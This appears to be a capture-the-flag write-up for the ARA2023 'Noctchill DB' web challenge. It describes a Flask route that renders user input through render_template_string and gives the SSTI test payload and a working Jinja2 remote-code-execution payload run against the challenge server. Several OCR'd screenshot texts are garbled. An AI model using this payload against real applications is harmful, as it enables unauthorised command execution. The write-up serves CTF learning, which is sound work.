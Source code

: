 # Noctchill DB
> Checkout my Noctchill Database Page.

## About the Challenge
Given a website along with its source code (You can get the source code [here](web_noctchill_db.zip)), when we open the website we will be met with shiny color members :D.


[Image extracted text: noctchiil
Welcome
to my
noctchill
database!
Who is your
favorite idol?
4
Hinana
oru
Madoka
Koito]


And then when I checking the code, apparently there is no filter in the idol detail endpoint section which can result in Server-Side Template Injection (SSTI)


[Image extracted text: @app.route( ' /<idol>
def detail(idol)
idol
idol.lower
render
render_template( ' idol.html
data-idols[idol]_
return
render_template_string(render)
except
try:
if(not filter(idol) _
return render_templatee
invalid.html
render
render_template
404.html
idol-idol)
return render_template_string(render)
except:
return
"Internal
server
error
try]



[Image extracted text: Jss= text-neutral-900
class=
m-auto W-fit
text
center
backdrop-blur-lg
borde
<hl
class=
text-3xl
font-black"
404 Not
Found!< /hl>
<hl
class=
font-bold">"{ {
idol }}"
isn
noctchill
member
href=
class="
underline
>Back
to home
<fa>
Lv>]


## How to Solve?
First I test the website using the payload as below

```
http://103.152.242.116:6712/{{7*7}}
```

And it turns out that the output is `49` which means vulnerable to SSTI


[Image extracted text: 404
Not
Found !
49"
isn
noctchill
member !
Back_
to_home_]


After testing a lot of payloads and reading other CTF event writeups, I found the final payload to perform RCE on the server

```
http://103.152.242.116:6712/{{url_for.__globals__.os.__dict__.popen(request.args.file).read()}}?file=ls /
```


[Image extracted text: 404
Not
Found!
"bin boot dev etc flag_68b329da98.txt
home lib lib64 media mnt opt proc
root
run sbin
srv sys tmp
usr
var
isn
noctchill member!
Back_
to
home _]


Open the `flag_68b329da98.txt` file to get the flag

```
ARA2023{its_n0t_th4t_h4rd_r1ghT??}
```